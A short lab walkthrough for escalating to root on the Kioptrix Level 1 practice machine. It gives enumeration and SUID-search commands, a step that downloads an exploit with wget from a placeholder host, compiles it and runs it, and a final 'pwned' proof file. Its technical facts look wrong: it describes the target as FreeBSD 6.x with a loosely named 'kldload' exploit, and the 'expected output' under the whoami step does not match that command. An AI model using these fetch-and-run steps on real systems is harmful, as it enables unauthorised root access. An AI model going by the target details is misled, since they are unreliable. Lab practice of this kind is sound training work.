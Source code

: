 🔓 Privilege Escalation – Kioptrix Level 1

If initial access was gained as a limited user (e.g., `www-data`), the next step is escalating to `root`.

---

## 🧭 Step 1: System Information

Check basic system info:

```bash
whoami
uname -a
id
````

Expected output:

* FreeBSD system
* Kernel: 6.x (very old)

---

## 🔎 Step 2: Enumerate Privilege Escalation Vectors

Since this is a FreeBSD system, tools like LinPEAS won't work. Manual enumeration is key.

Check for:

* SUID binaries
* Misconfigured sudo
* Kernel version vulnerabilities

---

## 🧠 Step 3: Look for Kernel Exploits

From enumeration:

```bash
uname -a
# FreeBSD kioptrix.level1.local 6.x ...
```

Search Exploit-DB:

```bash
searchsploit freebsd 6.x
```

### ➤ Example: FreeBSD 6.x `kldload` Local Privilege Escalation

Download the exploit:

```bash
wget http://your-ip/kldload_exploit.c
gcc -o exploit kldload_exploit.c
./exploit
```

✅ If successful:

```bash
# whoami
root
```

---

## ⚙️ Step 4: Check for SUID Binaries

```bash
find / -perm -4000 -type f 2>/dev/null
```

Look for:

* `/usr/bin/passwd`
* `/bin/su`
* Any custom binaries

Attempt to exploit writable/abusable ones.

---

## ✅ Confirmed Root Access

Once you escalate:

```bash
whoami
id
hostname
```

✅ Success if `uid=0(root)` is displayed.

---

## 🧾 Proof

Create a root proof file:

```bash
echo "Rooted Kioptrix Level 1!" > /root/pwned.txt
```

---

📂 Proceed to [`flags.md`](./flags.md) to record proof of root access.
